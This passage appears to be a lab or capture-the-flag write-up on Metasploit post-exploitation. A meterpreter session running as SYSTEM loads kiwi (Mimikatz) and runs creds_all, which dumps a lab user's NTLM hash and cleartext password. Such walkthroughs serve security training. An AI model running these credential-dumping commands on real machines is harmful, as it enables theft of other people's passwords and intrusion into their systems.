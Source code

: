 #### 3) Let's check what user we are now with the command `getuid`. What user is listed ?

  `meterpreter > getuid`

  > Server username: NT AUTHORITY\SYSTEM
  
Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz).
  
`meterpreter > load kiwi`
  
#### Which command allows up to retrieve all credentials ?  
  
`meterpreter > help`  

=> creds_all
  
####   Run this command now. What is Dark's password ?
  
`meterpreter > creds_all`

> [+] Running as SYSTEM
>   
> [*] Retrieving all credentials
>   
> msv credentials
>   
> ===============
>   
> Username  Domain   LM                                NTLM                              SHA1
>   
> --------  ------   --                                ----                              ----
>   
> Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb
> 
> wdigest credentials
>   
> ===================
> 
> Username  Domain     Password
>   
> --------  ------     --------
>   
> (null)    (null)     (null)
>   
> DARK-PC$  WORKGROUP  (null)
>   
> Dark      Dark-PC    **Password01!**
>   
> tspkg credentials
> 
> =================
>   
> Username  Domain   Password
>  
> --------  ------   --------
>   
> Dark      Dark-PC  **Password01!**
> 
> kerberos credentials
> 
> ====================
>   
> Username  Domain     Password